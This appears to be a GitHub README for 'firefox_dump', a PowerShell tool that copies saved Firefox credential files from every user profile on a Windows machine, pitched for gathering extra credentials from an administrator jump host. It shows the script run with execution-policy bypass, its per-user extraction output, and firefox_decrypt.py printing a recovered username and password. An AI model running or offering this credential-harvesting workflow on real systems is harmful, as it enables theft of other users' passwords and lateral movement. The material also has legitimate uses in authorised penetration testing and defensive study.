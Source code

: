 # firefox_dump
When trying to gather additional credentials from lets say an Administrator Jump Host, extracting sensitive Mozilla Firefox files is a great approach. Doing this manually is boring and time consuming, especially if there are hundreds of users under `C:\Users`. 

To simplify this I've made a simple PowerShell script, [`firefox_dump.ps1`](https://raw.githubusercontent.com/0xPThree/firefox_dump/main/firefox_dump.ps1), that gathers all sensitive Mozilla Firefox information which can later be decrypted using [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.

The script should be ran as a high privileged user to gain as much information as possible.

## Example Usage
```powershell
PS C:\tmp> powershell.exe -executionpolicy bypass .\firefox_extract.ps1
 ___    __   ___  ___  __       __              __
|__  | |__) |__  |__  /  \ \_/ |  \ |  |  |\/| |__)
|    | |  \ |___ |    \__/ / \ |__/ \__/  |  | |
                                      by: 0xPThree

[+] Extracting secrets from 'user1' to: C:\tmp\user1\ljftf853.default-release
[+] Extracting secrets from 'user1' to: C:\tmp\user1\skvrf23a.default
[+] Extracting secrets from 'user2' to: C:\tmp\user2\grg21h5s.default
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
```

```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
